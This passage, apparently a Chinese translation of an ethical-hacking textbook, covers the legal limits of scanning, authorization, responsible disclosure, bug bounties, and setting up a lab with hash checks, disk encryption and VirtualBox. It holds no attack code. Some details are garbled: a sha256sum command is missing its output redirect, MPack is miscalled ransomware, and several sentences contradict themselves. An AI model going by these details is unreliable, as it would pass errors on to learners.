扫描连接互联网的设备（我们将在本书中演示这一点），使用像 `Nmap`（一种某些系统所有者反感的网络探测工具）是非法的。虽然你可以在互联网上扫描常见的漏洞（也有如 `Shodan` `shodan.io` 之类的服务可以做到），但如果你开始扫描自己的机器，你可能会收到投诉。特别是如果你开始扫描美国国防部，这种情况就尤其可能发生。你的行为将不受欢迎，或者会收到来自 ISP 的提醒，警告你这种是不允许的行为。

在未经许可的情况下扫描系统时应谨慎。想象一下，如果你在扫描系统时无意中导致了某些问题——副作用，例如拒绝服务状态（导致其他合法用户无法访问服务）。无论这是否意为之，在法律眼中可能并不重要，你可能会陷入麻烦。你还必须小心意图；即你扫描政府计算机系统的理由是什么？

使用默认密码或未经许可访问服务——即使它们没有受到保护——是另一个灰色地带。对于没有安全功能的系统，有一种观点认为：如果一个资源可以被公众访问，那么它难道不是未经授权的公开可用资源吗？一个例子是网站 URL 参数可以更改以查看不同的文档。例如，你可以在网络浏览器地址栏中将 `gospite.gov?docid=1` 改为 `gospite.gov?docid=500`。当你进行此更改时，网站可能会向你显示一份新文档，但你真的有权限查看它吗？此类网站可能包含并非打算公开但被暴露的敏感信息，也许是由一个不知道任何问题的无经验员工暴露的。建议远离此类情况以及允许默认密码访问资源的情况。2005年，一位名为丹尼尔·库伯特（Daniel Cuthbert）的安全顾问根据英国的《计算机滥用法》被定罪，因为他更改了一个为海啸受害者设立的捐赠页面上的 URL 参数。他没有此许可，导致他的行为是非法的。尽管受到了 IT 安全人士的批评，库伯特仍被法院罚款并被雇主解雇。

> **警告：** 始终从你计划测试的系统、网络或环境中获取书面许可，理想情况下在你打算执行扫描活动时获取。这将为你以后节省很多麻烦和压力。

## 渗透测试方法论


# 渗透测试方法论与法律框架

当你作为渗透测试人员或雇佣黑客与客户接触时，你应该遵循一套方法论。多年来已经出现了许多开放标准、指南和框架，包括：

方法论帮助你以系统的方式完成许多任务，确保没有任何遗漏。它们还可能帮助你符合法律和行业最佳实践。建议查看《渗透测试执行标准》（PTES），该标准可以在 `www.pent-standard.org/index.php/Main_Page` 找到。PTES 涵盖了很多内容，包括在提交报告之前如何与客户接触。它提供了关于如何进行渗透测试的总体指导，并包含了有关如何执行的细节。

《开源安全测试方法论手册》（OSSTMM）也充满了信息，可以从 `isecopen.org` 获取。该手册的第 3 版本有点过时了，因为它提到了 PBX、传真和综合业务数字网络（ISDN）等技术。尽管如此，本书借鉴了各种方法论的元素，并寻求比之前的示例更易理解且趣味。当我们为了黑客目的接触系统或技术时，必须遵循以下逻辑步骤：

## 授权

如果你在为客户进行渗透测试，必须获得书面许可以执行完成测试所需的活动。在测试期间，你可能会获得访问敏感数据的区域权限，例如个人身份信息（PII）。你的客户需要理解并授权此项访问。即使你已与客户同意测试系统并有权对某些系统活动，发现漏洞并利用它访问客户没有协议的系统将意味着你正在违反法律。

## 合法与合规的黑客攻击

漏洞被利用时可能会导致整个系统离线，这是你首先需要与客户确认的事情，以确保对你来说进行此类测试是合适的。在执行诸如利用可能对系统产生影响的远程漏洞等危险活动时，让系统所有者知情是非常重要的。清晰的沟通和透明度是避免误解并与客户产生复杂关系的关键。

始终记住，你是客户计算机环境中的客人，未来能被再次邀请进入对你是有利的！

## 负责任披露

负责任披露是指先通知产品供应商，然后与他们合作解决漏洞的实践。这是一个保护软件或产品消费者或用户的过程，并最终（或作为最后手段）可能对此类漏洞进行发布。

考虑以下情况：你正在为一个客户进行渗透测试，并发现了某种访问本不应存在的敏感信息的方法。这个漏洞、缺陷或故障不仅影响你的客户，还会影响该特定软件的所有用户。在测试期间，你找到了一种利用所发现的弱点的方法并进行了研究，最终确定这是一个未记录的漏洞，且没有关于如何利用它的信息。恭喜你，你发现了一个让普通用户面临风险的零日漏洞。零日漏洞是厂商尚未修补的漏洞，且发现者可能尚未将其广为人知。你接下来会做什么？

首先，由于你是在为客户工作，应该立即通知他们该问题。应始终采取措施确保敏感事项的通信安全。使用用 `OpenPGP` 加密的电子邮件。`PGP` 代表 `Pretty Good Privacy`（良好的隐私），它被认为是一种适当的安全实践（参见 `www.openpgp.org`）。你和客户可能同意由他们联系供应商并提供发现的漏洞细节，以便（理想情况下）尽快开始编写补丁工作。在这种情况下，如果你的客户不想披露该漏洞，作为安全专业人员，你应该就该漏洞对使用软件的公司的影响向他们提供建议。但最终，你的责任是向客户报告该漏洞。如果你的客户不希望将此信息披露给第三方（如供应商），你应该尊重他们的意愿。

你可能在黑入自己的某个计算机系统时发现了该缺陷，在这种情况下，你应该直接联系供应商。行业事实上的建议应该提供 90 天的机会窗口，允许供应商准备补丁。你实际上是给了供应商 90 天的时间来对你发现的漏洞或缺陷实施某种修复。在此时间之后，如果没有准备好补丁，取决于缺陷的性质，向受影响软件的普通用户警示该问题被认为是负责任的。在此之前，你（以及你的客户，如果你和他们合作的话）和供应商之外，不应有人知道这个漏洞。

软件供应商不应在这种负责任披露实践而被“勒索”或被迫陷入困境；然而，正如历史所示，某些供应商在问题公开之前将无所作为。某些供应商可能不想与你合作解决问题，或者拒绝承认该问题的存在。当你公开信息时，这些供应商几乎肯定会感到不满，但只要你遵循行业最佳实践，你就没什么需要担心的。通过这种方式，你迫使供应商承认一个他们本甘于忽视的问题。最终，你正在帮助保护消费者。作为黑客，在这样的情况下，我们有道德义务告知公众和受影响的方。然而，你应该始终考虑公开信息的风险与这样做之间的利弊。

> 本书的作者之一披露了 `WinZip` 的缺陷，这些缺陷随后被财务驱动的犯罪分子利用。问题披露后不久，该漏洞的利用程序就出现在 `MPack`（一种俄罗斯黑客制作的恶意软件）中。`MPack` 被称为勒索软件，因为它的设计目标是供犯罪分子使用。每次下载费用为 500-1000 美元。作者当时意识到了这种影响，他很可能会长时间保留这些信息，以防止其被滥用。

一旦厂商为产品开发了补丁（或修复），在披露之前应再留出 30 天，以便受影响的客户获取并应用补丁。没有法律规定必须如此，但这通常已成为大多数黑客遵循的漏洞披露时间表的公认事实。

在向供应商披露时，你可能会发现其他人是开放且投入的。供应商通过将你的名字加入他们的荣誉堂来奖励公开披露已成为一种常见做法，甚至可能发送一份象征性的姿态或金钱奖励。然而，不应期待此类奖励，它们在更多时候是常态。

## 漏洞赏金计划

一些公司或组织提高安全性的一种方法是向其应用程序开放测试。这些安排被称为漏洞赏金计划。两个著名的漏洞赏金平台是：

- `www.bugcrowd.com`
- `www.hackerone.com`

在授权的漏洞赏金计划中，任何人都被允许针对指定的系统和服务执行某些活动；其核心思想是在发现漏洞或缺陷时，将其报告给公司。作为回报，漏洞的发现者将获得金钱奖励——所谓的“赏金”——公司也能够修补其防御中的漏洞。

许多黑客之所以从事寻找漏洞的工作不仅是为了赏金，还为了其中的乐趣和刺激！这是积累经验的绝佳方式，也是任何工作面试中极佳的谈资。只需确保你始终在合法的计划下运行，并始终保持在项目范围内即可。

## 法律建议与支持

网络犯罪律师非常昂贵——真的非常贵。当然，这取决于所需的建议类型以及特定的国家或法律体系。由于这个原因，你无疑会尽可能与律师交道，但如果你发现自己陷入了麻烦，你需要确保找到一位精通网络法的人士。由于专业人士缺乏理解，这一领域经常出现司法不公的情况。

幸运的是，有一些组织在关注“小人物”。其中一个组织是电子前沿基金会（`EFF`），它曾帮助个人和小型公司在针对大型集团（如由 `MGM` 影业公司领导的诉讼中进行自卫，该公司曾试图起诉点对点文件共享软件的分销商，指控其侵犯了版权作品）的案件。另一个例子是 `EFF` 帮助 `Sony BMG` 为客户计算机感染了可以监控用户听歌习惯的恶意软件负责。

可以在 `www.eff.org` 找到 `EFF`，它可能提供法律支持或向你推荐其信赖的律师。该组织还有一个编码员权利项目（`www.eff.org/issues/coders`），旨在解决美国逆向工程师、黑客和安全研究人员可能面临许多常见法律问题。`EFF` 是一个美国组织，但欧洲也有类似的协会，即欧洲数字权利（`edri.org`），存在于欧洲的多个国家。

这些机构无法在日常法律事务中为你提供帮助。联系当地信誉良好的专业人士总是最佳选择。尽管如此，此类机构可以为你推荐值得联系的专家。如果你不幸被捕，或者因为你的伦理黑客活动导致了法律纠纷，请立即寻求专业的法律建议。

## 黑客小屋行为准则

当学生参加我们的实战黑客训练课程时，我们首先要求他们同意并签署我们的《黑客小屋行为准则》。虽然我们不能以此本书的读者的身份强迫你遵守这一点，但我们希望你能够从中学习并在法律、道德和伦理框架内应用它们。在整本书中，我们将探测弱点和漏洞，涵盖的技术可能被用于实施犯罪——这就像一本会计书籍可能帮助一个坏的会计师清点洗钱犯罪，或者一本医学书籍可能被不道德的医生用来伤害患者一样。我们希望你利用书中的工具和技术积极为信息安全做出贡献，更有效地防御系统免受那些恶意者的侵害。

## 总结

在开启你的黑客之旅时，请记住以下关键点：

* 在尝试任何黑客攻击之前，始终获得系统所有者的书面许可。
* 与客户合作时，同意定义良好的范围。什么是允许的，什么是不允许的？将测试哪些系统？
* 让你的客户签署授权测试合同，合同中应引用范围并在出现问题时免除你的责任。
* 始终保持在项目范围之内。
* 从一开始就开放和透明，以避免可能出现的复杂情况。
* 需要时寻求专业的法律帮助。在创建你自己的授权测试合同时，极力建议这样做。
* 在相关情况下遵循负责任披露的实践。

祝玩得开心，尽情享受黑客的乐趣！

# 构建你的黑客箱

本章将向你介绍虚拟机（`VMs`）的概念，以及它们如何作为你的“练习场”或沙箱提供帮助，让你在其中尝试工具和技术。我们还将向你展示一种配置主机系统的方法，即在你虚拟机（客机）中运行的物理机器和操作系统。

设置系统的方法有无数种，很大程度上取决于个人偏好。考虑到这一点，在深入研究为了黑客攻击而配置虚拟机的细节之前，我们先提供一个系统设置的概述（这是你可能已经很熟悉的内容）。我们将介绍一些硬件考虑因素，但再次强调，这里有很多选择和观点。

你必须意识到的一点是你自己的信息安全和网络卫生。因此，我们将提供一些关于保护你的系统免受恶意攻击者的建议。如果你打算使用一个系统来测试客户的网络，这一点尤为重要，因为你的系统可能包含属于他们的数据，以及可能关于安全漏洞的详细信息！虚拟机在这里也派上了用场，因为它们可以将信息与系统的其余部分隔离开。

我们将首先讨论硬件，然后转向安装操作系统。随后我们将安装 `VirtualBox`——一个免费的开源虚拟机监控程序——用于创建和管理虚拟机。

## 黑客所需的硬件

如果你正在考虑购买或搭建一台用于黑客攻击的计算机，你将探索你可能考虑的各种硬件选项。你现有的计算机可能已经足够充分这本书的内容，这是因为许多黑客活动的硬件要求并不高。如果你愿意，你可以在树莓派上执行任何渗透测试，尽管不建议这样做。与 `PC` 游戏相比，游戏需要高端显卡、大量内存和高端 `CPU` 才能玩最新大作。而要利用最新的漏洞，你显然不需要这类硬件。

> 注意：手机、平板电脑、`Chromebook` 和单板计算机（`SBC`，例如树莓派）不适合执行本章中的任何活动。此类设备通常使用 `ARM` 处理器（`ARM` 原本代表 `Acorn RISC Machine`；现在代表 `Advanced RISC Machine`），这种 `CPU` 可能不具备在桌面和笔记本电脑中常见的 `Intel` 或 `AMD CPU` 那样的全虚拟化功能。这并不意味着这些设备不能用于黑客攻击。事实上，你会发现这些设备非常适合此类活动。然而，它们无法运行我们首选的管理器 `VirtualBox`。`CPU` 具有精简的指令集，在 `ARM` 缩写中可以找到精简指令集计算机（`RISC`）。与复杂指令集（`CISC`）处理器（如现代 `Intel` 或 `AMD CPU`）相比，`RISC` 处理器具有更小的通用指令集。而虚拟化特定指令正存在于 `CISC CPU` 的高级指令集中。

关于你的硬件的关键考虑因素是它是否能处理虚拟机。我们在整本书中都使用 `VirtualBox`，因此我们的需求是基于你也会使用它的假设。还有其他的虚拟机监控程序，例如 `VMware`（`https://www.vmware.com`）和 `Hyper-V`（适用于某些版本的 `Windows`），但除非你支付额外费用，否则这些程序通常缺乏 `VirtualBox` 提供的许多功能。

作为指南，无论你运行 `Linux`、`BSD`、`Windows` 还是 `macOS` 作为操作系统（`OS`），以下规范都应该足够完成书中的练习。这些是书中介绍的活动的最低要求，假设目前没有安装任何内容：

- 带有流式 `SIMD` 扩展 2（`SSE2`）的现代 `AMD` 或 `Intel CPU`。单指令多数据（`SIMD`）是运行 `VirtualBox` 所需的 `Intel` 指令集。
- `4 GB` 内存。
- `50–100 GB` 硬盘驱动器（`HDD`）或固态硬盘（`SSD`）容量。
- 下载软件和运行演示的互联网访问。

几乎所有现代处理器（如 `Intel` 和 `AMD` 提供的）都全虚拟化。你通常可以在计算机的基本输入输出系统（`BIOS`）或统一可扩展性接口（`UEFI`）设置中看到这一点；在 `Windows` 机器上，这些设置通常是禁用的。在运行虚拟机时，多个核心（`cores`）将非常有用。在配置虚拟机时，你可以告诉它允许使用多少核心。两个物理核心足够了，四个则就过剩了。

下一步是考虑计算机的内存量。内存越大越好，因为你正把一部分内存分配给虚拟机。虽然 `4 GB` 内存足以运行你的主机操作系统、一个 `Kali Linux` 虚拟机和一个易漏洞服务器（用于黑客攻击），但有一个地方值得扩展容量，那就是内存。这是因为当你运行虚拟机时，你实际上是将计算机的一部分内存交给了虚拟机独占使用。使用 `4 GB` 内存，取决于你的主机 `OS`，`Windows` 可能占用 `1.5 GB`，`Kali Linux` 占用 `1.5 GB`，留 `1 GB` 给虚拟服务器。这将为运行其他程序留出很小的空间。

> 注意：你应该检查你的硬件（特别是你的 `CPU`）是否支持全虚拟化。现代处理器（如 `Intel` 和 `AMD` 制造）对虚拟化功能有不同的名称，分别为 `Intel VT-x` 和 `AMD-V`。在计算机的 `BIOS` 或 `UEFI` 设置中应该有一个启用这些选项；它们在 `Windows` 机器上通常是禁用的。现代 `macOS` 系统默认启用虚拟化。

## 专业级硬件建议

如果你决定认真对待黑客技术并开始专业工作，那么投资一台更强大的系统是值得的。我们针对更具挑战性的工作推荐的系统要求如下：

- 具有四个或更多核心的现代 `Intel` 或 `AMD CPU`
- `32 GB` 内存
- `1 TB` 存储容量
- 同时具备有线和无线网络接口
- 高速网络访问

我们没有提到键盘，但由于你将花费大量时间输入命令和编写报告，因此建议使用舒适的键盘。关于键盘的偏好有很多可以说的，而且它们就像笔记本电脑的选择一样多样。一把好的机械键盘可能是你的首选，但它的“咔哒”响声无疑会让你的同事感到困扰。

> 注意：在某个时刻，你可能想尝试一下 `Happy Hacking Keyboard`（`HHK`），它使用极简的 60 键设备，并针对 `Unix` 系统的交互进行了优化。这种设备的构想由日本计算机科学家 `Eiichi Wada` 倡导，他对编程计算机键盘的按键布局和整体设计非常不满。`HHK` 非常适合黑客工作，但不太适合写报告。你可以在 `hhkeyboard.com` 了解更多信息并购买最新型号。

你还需要确保你有一个以太网端口，因为一些较新的轻量级设备正在取消这一功能。替代方案是使用插入任何可用 `USB` 端口的外部以太网适配器。

## Linux 还是 BSD？

你会发现本书作者大量使用了 `Linux`。`Linux` 本身特别适合黑客工作，其中一个不容否认的原因是互联网就运行在这个操作系统之上。此外，大量的安全工具是专门为 `Linux` 编写的。虽然你可以在 `OpenBSD` 和 `macOS` 等平台上编译这些许多工具，但与 `Linux` 相比，它们通常无法按预期运行，或者根本无法运行。

书中的大多数练习和示例都使用 `Linux`。如果你现在放弃抵抗并开始将 `Linux` 作为你的日常操作系统，你可能会从中获得更多的乐趣。这样做是学习 `Linux` 的一种极佳且推荐的方法。然而，如果你在使用 `Microsoft Windows` 或 `macOS`，你并不需要放弃它们。你可以在现有的操作系统中运行虚拟机。你可以在虚拟机中安装 `Linux`，这样你就可以在学习 `Linux` 的同时保留当前操作系统所有的好处。

如果你已经决定了走这条路线，那么你可以直接跳到“基本软件”章节。这对于那些已经在 `Linux` 上运行着某个发行版（简称 `distro`）并且对此感到完全满意的人也适用。

另一种发行版选择是伯克利软件发行版（`BSD`），或者它的后代，例如 `NetBSD`、`OpenBSD` 和 `FreeBSD`。尽管这些操作系统基于 `Unix` 而非 `Linux`，但它们采用了 `Linux` 的许多设计选择。

`Linux` 发行版之间的主要区别通常在于软件包管理软件的选择以及安全更新的频率。

> 出于训练目的以及执行书中的活动考虑，使用发行版的包是完全可以的，但在测试客户系统时，建议你检查工具和程序的源代码，并尽可能从源码构建这些工具，以便确保你运行的仅是你自己审计过或构建的工具。如果你使用的工具损坏了客户的系统，而你并不完全清楚该工具实际上在做什么，你可能需要对损害负责。

## 宿主机操作系统

你的操作系统是安装在你物理机器上的那一个。我们已经提到，`Linux` 几乎是进行安全测试的最佳路线。那么问题变成了，你应该使用哪种 `Linux` 发行版？专注于安全工作的流行发行版包括 `Arch Linux` 和 `Debian` 作为宿主机操作系统。`Linux` 狂热分子可能会让你使用 `Gentoo Linux`。许多初接触 `Linux` 的用户会选择 `Ubuntu`（基于 `Debian`）。让我们看看流行的 `Linux` 发行版之间的一些区别，以帮助你决定。这些并不是可选的 `Linux` 发行版，还有许多其他你可能想要探索的选择，例如 `Mint`。

### Gentoo Linux

`Gentoo Linux` 为你提供了完全的定制性，如果需要，它可以完全从零开始构建，而不使用任何二进制组件。从安全的角度来看，它允许你通过源代码精确地审视你的计算机被指令执行的每一项操作。如果你想生活在 `Linux` 的最前沿，那么 `Gentoo` 无疑是正确的选择，因为对上游组件的更改几乎可以即时可用。

虽然 `Gentoo` 无疑是一个令人赞叹的操作系统选择，但对于新用户来说，它可能是令人望而生畏且没必要复杂的。建议你尝试一次，以熟悉各种操作系统组件。然而，除非你愿意花费大部分时间来编译源代码，否则我们不建议你将其作为日常桌面系统。编程发烧友和 `Linux` 大脑可能不同意这一说法，因为运行这样一个功能强大的系统通常被视为技术纯洁的标志。

### Arch Linux

`Arch Linux` 是功能型分发和二进制组件的卓越结合。它可能是类 `Gentoo` 的强大与类 `Debian` 的稳定性的混合体，在提供二进制分发速度和效率的同时，仍然允许源代码组件的灵活性。它并不是针对新手的，但安装和使用它无疑会教给你很多东西。其安装过程不像安装主流操作系统（如 `Windows 10`、`macOS` 或 `Ubuntu`）。要成功安装 `Arch Linux`，你需要精通 `Linux` 命令行并对系统有深入了解。

### Debian


# Debian 是一个不包含任何专有软件的稳定发行版

在实践中，这意味着你的声卡、显卡、摄像头、Wi-Fi 网络适配器等将需要调整。对于其他设备则并非如此。如果你是 Linux 新手，那么 Debian 可能是最好的选择。它在网上有详尽的文档和帮助。

## Ubuntu

Ubuntu（基于 Debian）通常是初学者的选择，因为它引导用户进入 Linux 世界。它的默认界面易于导航，与 macOS 相似。

## Kali Linux

我们建议你在虚拟机中安装 Kali Linux（同样基于 Debian），而不是作为你的操作系统。当然，这并不是它的设计初衷。我们将在本章中介绍如何在虚拟机中安装 Kali Linux。在写作期间，Kali Linux 是流行的渗透测试工具包。渗透测试是识别客户系统中所有安全漏洞的过程。当你读完这本书时，你对这一过程会有更深的理解。Kali Linux 包含了大量用于此目的的工具。它还可以作为实时镜像运行，这意味着你可以将操作系统拷贝到 U 盘或其他可启动介质上，而不对计算机的硬盘或 SSD 进行任何更改。这种 Linux 发行版将在书中提到，它是你的渗透测试机器。你可能还会寻找 Kali Linux 的替代品，例如 Black-Arch Linux 或 Pentoo Linux，它们分别以 Arch Linux 和 Gently 为基础发行版。Kali Linux 是最广泛使用的安全发行版，而之前提到的替代品同样适用于这一目的。

# 运行主流操作系统

虽然将 Linux 作为宿主机操作系统对道德黑客有直接好处，但你可能也想运行更主流的操作系统，如 Windows 或 macOS。你可以通过虚拟机来实现。你之所以想这样做是因为 Linux 在桌面出版和文档共享方面是出名的难用，尽管像 Office 365 等云解决方案正在缓解这个问题。

# 验证下载

任何你从网络上手动下载的文件，无论是新的操作系统还是程序，都应该进行验证。你应该验证其完整性；换句话说，检查文件是否有效，以及它在到达你手中之前没有以某种方式被篡改（或损坏）。当你从网站或 BitTorrent 客户端下载内容时，应该始终执行此操作。你通常可以在某个 Linux 发行版中找到验证下载的详细说明——我们将向你展示在 Linux 和 Windows 上验证下载的一种方法。运行 macOS 的用户还有一个 BSD 子系统（源自 Mach，这是一种由卡内基梅隆大学开发的内核，那是完全另一本书的内容），可以使用 Homebrew (`brew.sh`) 或 MacPorts (`www.macports.org`) 来利用许多开源组件。

首先，你应该下载（或查看）你刚刚下载文件的哈希值（`hash`）或校验和。确保下载了正确的哈希值，并确保它是通过安全文本传输协议（HTTPS）或其他安全协议下载的，以防止篡改。你也可以在将文件复制到文本文件之前，直接点击文件并在浏览器中查看。

你可能会看到 MD5 哈希、SHA256 哈希和 SHA512 哈希的选项。不应使用 MD5，因为这种特定算法中发现了碰撞漏洞，使其不适用于安全语境。哈希和碰撞将在第 14 章中进行探讨。如果你有该网站文件的副本，你需要根据你刚刚下载的文件生成你自己的文件哈希以进行比较。如果你确信两个文件是相同的（尽管你可能可以使用 OpenPGP 进行进一步的签名检查），并且没有人篡改文件，请确保下载已完成，然后在 Linux 上执行以下命令：

```bash
sha256sum <PathToFile> mychecksum.txt
```

在 macOS 或基于 BSD 的系统上，命令是 `sha256`。Windows 10 包含一个名为 `CertUtil` 的程序，可以从 Windows 命令提示符运行（在屏幕左下角的 Windows 搜索栏中搜索 `cmd`）。该实用程序可以执行的操作之一是生成哈希。要执行此操作，运行以下命令并将输出的哈希复制到文本文件中；例如：

```bash
certutil -hashfile <PathToFile> SHA256
```

你现在拥有了下载的文件和两个完整性文件哈希值：一个来自网站，另一个是你自己创建的。只需比较这两个哈希（每个哈希应该只有一行内容——即哈希值），查看它们是否匹配。在 Linux 机器上，你可以使用 `diff` 命令：

```bash
diff mychecksum.txt sitechecksum.txt
```

奇怪的是，如果两个文件完全相同（因此两个哈希匹配），此命令将没有任何输出。肉眼进行视觉比较通常足以识别哈希值是否匹配。

> **警告** 如果你完美地遵循了所有完整性步骤，但仍然发现两个校验和并不相同，那么你不应该使用下载的文件。这种情况不太可能，在得出你“遭受攻击”的结论之前，你可能想要进行合理性检查。检查以下内容：
>
> - 其中一个校验和在末尾包含了一个额外的字符；例如，单个星号 (`*`) 或文件名？
> - 确保网站上的校验和对应的是正确的文件，且你没有用错。
> - 通过检查大小确认下载已完全完成，并且你生成的校验和反映了完整的文件。
>
> 如果在尝试了上述步骤和检查之后，两个校验和仍然不相同，那么你可以得出以下结论：
>
> - 你的文件被拦截并篡改了。
> - 网站上的文件被篡改或替换了。（这可能是合法的操作，但校验和没有更新）。
> - 下载过程中发生了问题，文件意外损坏。无论原因如何，你都应该尝试重新下载文件。

# 下载的 HTTP VS. HTTPS

通过超文本传输协议（HTTP）查看的文件或页面是以明文发送的；换句话说，它们可以被任何人查看。而 HTTPS 反之加密了通信，使其更难被拦截。网站可能使用 HTTP 来提供文件，这在下载完成后如果通过明文传输，那么它是无意义的。为了应对这种风险，某些开发者在下载时使用 HTTPS 加密，以确保文件未被篡改。OpenPGP 通常用于此类目的，前提是你拥有相应的密钥。你可以在许多 Linux 发行版中找到使用 OpenPGP 的详情。

# 磁盘加密

建议的操作是加密你的整个硬盘或 SSD。在某些操作系统上，要么无法加密整个设备，要么它需要重新安装。Windows 10 用户将运行 BitLocker，这是微软的加密软件。macOS 用户应该启用 FileVault 来保护系统。你会发现加密整个驱动器是困难的（如果不是可能的）。负责启动操作系统的部分通常无法加密，必须在解密开始之前被读取。最简单且最明智的方法是在安装过程中启用磁盘加密（Debian 和 Ubuntu 提供了相应的选项）。你可以在安装完成后通过添加加密文件夹或加密单个虚拟机为某些文件添加保护。

你将在系统启动时使用强密码来守护你的驱动器。理想情况下，它由随机的字母、数字和符号组成。如果你需要帮助选择密码，请拿一些六面骰子并在浏览器访问 `www.diceware.com`。在那里你会找到关于如何使用字典作为密码的详细说明（正如冷战期间间谍使用一次性密码利用骰子作为硬件随机生成器来加密密码）。最安全的密码利用你自己的密码本以及额外的字符来增加复杂度。使用这种方法创建的优质密码看起来像这样：`triedmiglibuf&bash, fprprite4ncy`。记住这个密码不需要费太大力，但它包含 37 个字符，且毫无意义。这使得人类几乎不可能猜到，对于目前的标准来说，计算机通过尝试得到相同密码也是极其不现实的。

你可以结合密码密钥文件（一个看似随机的数据文件）或存储在可移动介质上的 PGP 密钥对来解密你的设备。不建议将此类文件作为访问加密数据的唯一手段，因为它们可能会损坏或被轻易盗窃。如果你忘记了密码或丢失了密钥文件，将无法解密设备，除非花费大量的时间和精力（假设你使用了合适的密码，且密钥文件是以安全方式生成的）。

请确保你的短语和任何密钥文件安全，并且理想情况下要进行备份。你用于加密硬盘的短语绝不应在其他地方使用。在安全地生成该短语后，你可以把它写在一个安全的地方并将其背下来。然而，一旦记住了，就应该销毁纸质副本。这听起来可能有点极端，但当你读完这些内容时，你就会理解为什么这些措施是如此重要的。

值得注意的是，本书的作者之一曾多次因忘记了各种系统的短语而丢失了重要数据。这与某个品牌的巧克力无关（因为那是他唯一还记得的东西）。如果你决定使用一个安全且难以记忆的短语，那么花时间将密码锁在一个安全的地方——理想情况下是让心怀不轨的窃贼无法触及的地方——也许是值得的。你应该始终考虑到，你可能会让数据处于加密状态一段时间，并最终忘记如何访问它！

使用 Debian 和 Ubuntu 全盘加密的默认设置，你将看到安装程序在你的物理硬盘上创建了分区。你还会看到虚拟的 `crypt-devices`。较小的 EFI 分区没有加密，但其他所有内容都加密了。

在安装过程某个时刻，系统会提示你创建一个用户（并至少为 root 用户设置密码保护）。这些可以被视为管理员账户，强且唯一的密码在这里同样重要。有了这些账户和密码，你将能够安装和卸载软件，并对系统上的任何文件拥有完全访问权限。

安装完成后，你将能够进入你的新操作系统。输入两个密码（先是加密密码，然后是用户密码）可能有点令人生畏，但你会习惯的！

# 核心软件

一旦你下载、验证并安装了主机操作系统（已启用全盘加密），你就需要安装和配置一些额外的软件。我们将回顾认为对于保护你的系统免受攻击至关重要的软件和工具。你可以使用操作系统内置的图形用户界面（GUI）工具来安装和管理软件。然而，我们建议你使用命令行，因为如果你想从未来的章节——事实上是从你的黑客生涯中获得最大的收益，这是一个你需要适应的习惯。此时，我们假设你运行的是 Debian 或 Ubuntu 的 Linux 发行版。如果不是，你可能知道自己在做什么，并可以转换以下命令。在安装任何内容之前，使用此命令验证你的系统是否为最新版本，它将检查 Debian 或 Ubuntu 的在线存储库：

```bash
sudo apt update
```

`Sudo` 是 `super-user`（超级用户）的缩写，执行需要 root 权限的任务。该命令会提示你输入密码，然后执行下一个命令（在本例中为 `apt`），就像 root 用户执行该命令一样。`apt` 程序被传递了一个参数，`update`。要了解有关 `apt` 的信息，你应该使用以下命令查看其帮助页（man page）：

```bash
man apt
```

> **注意** Ubuntu 与其他 Linux 发行版不同，后者默认禁用 root 用户账户。其他的 Linux 和 Unix 变体拥有 root 用户（在 Unix 中称为 superuser），它可以被认为是一个对每个文件拥有完全访问权限的账户。Windows 的对应物是 Administrator 账户。macOS（基于 Unix）也保护用户免受 root 用户账户的影响。`sudo` 命令用于 `sudoers` 列表。用户必须添加到 `sudoers` 列表中才能成功使用该命令。对于 FreeBSD 和 OpenBSD，该命令的工作原理类似。

运行 `apt update` 后，你会发现系统已经是最新版本，或者可以进行升级。可以使用 `sudo apt upgrade` 命令进行升级。

## 包管理器

Ubuntu 和 Debian 使用 Aptitude 包管理器 (`apt`) 来安装、管理和删除软件。`Package` 是 Linux 中用于软件或计算机应用程序（apps）的术语。`Package` 与 app 或操作是同词。当你从 Android 市场或 Apple App Store 下载内容时，同样的原理也适用。以这种方式下载和安装的软件将由包管理器（在本例中为 `apt`）检查完整性。

## 防火墙

一旦你更新了系统，我们建议你设置防火墙。一个名为 Uncomplicated Firewall（或命令 `ufw`）的工具提供了实现此点的简单方法。我们假设你通过路由器连接到互联网，并且该路由器已经配置好。

# 虚拟化设置

大多数计算机的 BIOS 或 UEFI 设置中都包含启用硬件虚拟化的选项。为了让您的虚拟机（VM）获得最佳性能，我们建议您启用此类设置。之所以提到是因为该设置默认通常是禁用的。启用该设置将允许 VirtualBox 利用您 CPU 的额外虚拟化指令。如果您尚未设置，建议在 BIOS/UEFI 设置中设置一个强密码。与任何密码一样，此密码应该是随机生成的，并存储在安全的地方。如果您不确定如何访问和更改 BIOS 或 UEFI 设置，需要参考硬件制造商的网站或打印版文档。这通常在开机自检（POST）信息期间按下 ESC、F1、F10 或 F12 组合键来实现。

# 下载和安装 VirtualBox

我们推荐使用 VirtualBox，因为它对于黑客用途来说足够了。也有其他替代方案，例如 VMware 或 Hyper-V，但使用这些工具的指令与本书不同。您应该从 `www.virtualbox.org` 下载并验证适用于您操作系统的最新版 VirtualBox。有关详细的安装细节以及高级用法信息，您可以查看 `www.virtualbox.org/manual`。

在接下来的示例中，我们将使用 VirtualBox 6.0。一旦下载了适用于您操作系统的 VirtualBox 版本，您应该按照提到的，通过比较 VirtualBox 网站提供的 SHA256 哈希值与本地生成的哈希值来验证下载。您还可以在 VirtualBox 网站上找到特定系统的安装指令。

在 Debian 和 Ubuntu 中，一旦下载了文件（`.deb` 包），可以使用以下命令安装 VirtualBox：

```bash
sudo dpkg -i <InstallFile>
```

> **注意** 在某些 Linux 发行版上安装 VirtualBox 时可能会遇到问题。例如，您可能会看到与依赖相关的错误消息。仔细阅读完整的错误消息将让您了解如何继续操作。

安装完成后，您可以在终端中输入 `virtualbox` 来运行 VirtualBox。

# 主机仅网络

在创建任何虚拟机之前，您应该创建一个主机仅网络。这将允许您创建的任何虚拟机之间进行通信，就像它们处于同一个局域网一样。该网络被称为主机仅网络；它不能用于访问互联网或主机之外的任何内容。如果您在虚拟机中分析恶意软件，可以完全禁用或删除网络适配器，以防止意外感染您的主机计算机。主机仅网络意味着您可以将漏洞服务器部署为虚拟机，而不必担心外部世界能够访问它。要设置主机仅网络，打开“文件”菜单并选择“主机网络管理器”（Host Network Manager）。将显示主机网络管理器对话框，如图 3.1 所示。

